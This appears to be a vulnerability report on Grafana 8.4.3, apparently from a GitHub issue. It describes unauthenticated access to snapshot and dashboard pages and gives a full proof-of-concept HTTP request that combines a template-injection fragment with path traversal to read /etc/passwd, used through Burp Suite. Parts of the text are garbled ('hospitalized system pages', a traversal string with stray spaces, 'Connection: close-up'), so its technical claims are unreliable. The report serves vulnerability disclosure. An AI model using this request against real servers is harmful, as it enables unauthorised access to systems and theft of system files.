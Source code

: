 # grafana
grafana 8.4.3 (b7d2911ca)

# First point

##Unauthenticated and authenticated users can send a false request for snapshot query using random key parameters, having access to the system dashboard area by going through the login page.
•	Rated version: 8.4.3 (b7d2911ca)
•	
Access the system the user is directed to the system home page, as image 1
![image](https://user-images.githubusercontent.com/28454566/171639021-9b0da9c7-837d-4f86-be73-a123eae5de9b.png)

Image 1: login form 


It has been verified that an unauthenticated user knowing the vulnerable directories can enter random ID value which allows unauthenticated access to the hospitalized system pages.
Parameter used:
/dashboard/snapshot/*?orgId=0
/invite/:
![image](https://user-images.githubusercontent.com/28454566/171639130-8e408037-3e65-4b15-a679-88e2f1987aea.png)

Image 2: Unauthenticated access to snapshot list

![image](https://user-images.githubusercontent.com/28454566/171639178-52a2f5d5-f57c-49b9-9258-2f60a3b6403a.png)

Image 3: Unauthenticated access to the dashboard menu


![image](https://user-images.githubusercontent.com/28454566/171639388-3b17937c-e1f5-448f-b5cb-f26722af95f9.png)

Image 4: Unauthenticated access to the filter menu


# Second point

##
•	Rated version: 8.4.3 (b7d2911ca)
•	Injection of parameters in http request.
It has been verified that by injecting the following request into the login form the system returns internal page.

![image](https://user-images.githubusercontent.com/28454566/171640044-cf2029dc-8598-44f9-87ed-c6c09a152212.png)

Image 5: login form 



Viewing the request in burpsuite
![image](https://user-images.githubusercontent.com/28454566/171640173-5795e0b0-0f31-4cac-8ae5-5d413b0637d1.png)

Image 6: Intercepting the request by burpsuite


Change the request by adding /{{constructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 , encode : /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 HTTP/1.1



![image](https://user-images.githubusercontent.com/28454566/171640263-15364ef7-8741-40e2-98dd-dee80b44b28d.png)

Image 7: Request changed before submission to server


![image](https://user-images.githubusercontent.com/28454566/171640314-914a29f3-2f98-4ff2-9dc7-eaf7896e1d56.png)


Image 8: Data returned from the tampered request


### POC 2
Send the request to the Burpsuite Repeater  function and change the request header to:
GET /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 HTTP/1.1
Host: <grafana_host>:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-BR,en;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close-up
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache


![image](https://user-images.githubusercontent.com/28454566/171640452-7d292f9f-c35e-4067-b199-2ae9dea9ecbd.png)

Image 9: Changing the request in the repeater function.


![image](https://user-images.githubusercontent.com/28454566/171640507-360ce5d1-4486-4f29-adc4-a047e5655bfc.png)


Image 10: Unauthenticated access 







